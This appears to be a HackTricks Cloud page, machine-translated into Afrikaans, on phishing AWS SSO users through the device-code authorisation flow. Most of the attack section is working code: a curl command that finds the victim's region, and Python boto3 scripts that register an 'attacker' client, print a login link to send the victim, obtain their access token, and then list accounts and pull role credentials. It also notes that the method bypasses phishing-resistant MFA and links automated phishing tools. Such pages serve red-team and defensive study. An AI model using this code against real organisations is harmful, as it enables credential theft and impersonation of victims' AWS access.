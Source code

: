 # AWS - Identiteitsentrum & SSO Ongeverifieerde Enum

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## AWS-toestelkode-hengelary

Aanvanklik voorgestel in [**hierdie blogpos**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), is dit moontlik om 'n **skakel** aan 'n gebruiker te stuur wat AWS SSO gebruik, sodat as die **gebruiker dit aanvaar**, die aanvaller 'n **token sal kry om die gebruiker te impersoneer** en toegang te verkry tot al die rolle wat die gebruiker in die **Identiteitsentrum** kan toegang.

Om hierdie aanval uit te voer, is die vereistes:

* Die slagoffer moet **Identiteitsentrum** gebruik
* Die aanvaller moet die **subdomein** ken wat deur die slagoffer gebruik word `<victimsub>.awsapps.com/start`

Net met hierdie inligting sal die **aanvaller in staat wees om 'n skakel aan die gebruiker te stuur** wat, indien **aanvaar**, die **aanvaller toegang sal gee tot die AWS-gebruikersrekening**.

### Aanval

1. **Vind die subdomein**

Die eerste stap van die aanvaller is om uit te vind watter subdomein die slagoffermaatskappy in hul Identiteitsentrum gebruik. Dit kan gedoen word deur **OSINT** of **raaiwerk + BF** aangesien die meeste maatskappye hul naam of 'n variasie van hul naam hier sal gebruik.

Met hierdie inligting is dit moontlik om die streek te kry waar die Identiteitsentrum mee opgestel is:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Genereer die skakel vir die slagoffer & Stuur dit**

Voer die volgende kode uit om 'n AWS SSO-aanmeldskakel te genereer sodat die slagoffer kan outentiseer.\
Vir die demonstrasie, voer hierdie kode uit in 'n Python-konsole en verlaat dit nie aangesien jy later sekere objekte nodig sal hê om die token te kry:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
3. **Wag totdat die slagoffer dit aanvaar**

Indien die slagoffer **reeds aangemeld is by AWS** sal hy net die toestemming hoef te aanvaar, indien hy nie aangemeld was nie, sal hy moet **aanmeld en dan die toestemming aanvaar**.\
Dit is hoe die promp deesdae lyk:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Kry SSO toegangstoken**

Indien die slagoffer die promp aanvaar het, hardloop hierdie kode om **'n SSO-token te genereer wat die gebruiker naboots**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Die SSO toegangsteken is **geldig vir 8 uur**.

5. **Impersoneer die gebruiker**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Hengel die onhengelbare MFA

Dit is pret om te weet dat die vorige aanval **selfs werk as 'n "onhengelbare MFA" (webAuth) gebruik word**. Dit is omdat die vorige **werkstroom nooit die gebruikte OAuth-domein verlaat**. Nie soos in ander hengel aanvalle waar die gebruiker die aanmeldingsdomein moet vervang nie, in hierdie geval is die toestelkode werkstroom voorberei sodat 'n **kode deur 'n toestel bekend is** en die gebruiker selfs op 'n ander masjien kan aanmeld. Indien die versoek aanvaar word, sal die toestel, net deur **die aanvanklike kode te ken**, in staat wees om **geloofsbriewe vir die gebruiker te herwin**.

Vir meer inligting hieroor [**kyk na hierdie pos**](https://mjg59.dreamwidth.org/62175.html).

### Outomatiese Gereedskap

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## Verwysings

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

<details>

<summary><strong>Leer AWS hak van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
